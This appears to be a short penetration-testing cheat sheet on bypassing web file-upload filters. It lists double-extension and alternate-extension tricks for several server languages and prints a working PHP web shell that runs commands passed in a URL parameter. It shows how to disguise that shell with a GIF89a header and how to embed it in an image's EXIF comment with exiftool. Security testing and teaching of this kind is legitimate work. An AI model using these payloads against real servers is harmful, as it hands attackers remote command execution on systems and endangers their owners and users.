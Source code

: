 # Bypassing File Upload Filtering

## Rename it

* rename the shell and upload it as shell.php.jpg
* it can pass the filter and the file is executed as php

### PHP

* phtml
* .php
* .php3
* .php4
* .php5
* .inc

### asp

* asp
* .aspx

### Perl

* .pl
* .pm
* .cgi
* .lib

### jsp

* .jsp
* .jspx
* .jsw
* .jsv
* .jspf

### Coldfusion

* .cfm
* .cfml
* .cfc
* .dbm

## GIF89a;

* If the content is checked, add the text "GIF89a;" before you shell code

```bash
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
```

## In Image

* exiftool is a great tool to view and manipulate exif-data

```bash
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
```

### Then Rename the File

```bash
mv lo.jpg lo.php.jpg
```

## References

* [http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html](http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html)
* [https://www.owasp.org/index.php/Unrestricted\_File\_Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload)
* [http://repository.root-me.org/Exploitation - Web/EN - Webshells In PHP, ASP, JSP, Perl, And ColdFusion.pdf](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Webshells%20In%20PHP,%20ASP,%20JSP,%20Perl,%20And%20ColdFusion.pdf)

